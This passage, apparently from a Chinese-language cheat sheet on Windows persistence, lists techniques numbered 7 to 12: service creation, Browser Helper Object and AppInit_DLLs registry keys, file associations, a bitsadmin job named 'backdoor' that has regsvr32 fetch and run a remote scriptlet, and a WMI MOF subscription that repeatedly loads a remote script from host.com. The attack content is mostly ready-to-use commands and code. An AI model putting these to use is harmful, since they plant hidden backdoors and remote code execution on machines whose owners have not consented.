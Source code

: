 **7、Services**

创建服务

```
sc create [ServerName] binPath= BinaryPathName
```

**8、Browser Helper Objects**

本质上是Internet Explorer启动时加载的DLL模块

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects
```

**9、AppInit\_DLLs**

加载User32.dll会加载的DLL

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```

**10、文件关联**

```
HKEY_LOCAL_MACHINE\Software\Classes
HKEY_CLASSES_ROOT
```

**11、bitsadmin**

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec% %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

**12、mof**

```
pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP1";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 1";
QueryLanguage = "WQL";
}; 
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consP1";
ScriptingEngine = "JScript";
ScriptText = "GetObject(\"script:https://host.com/test\")";
}; 
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```
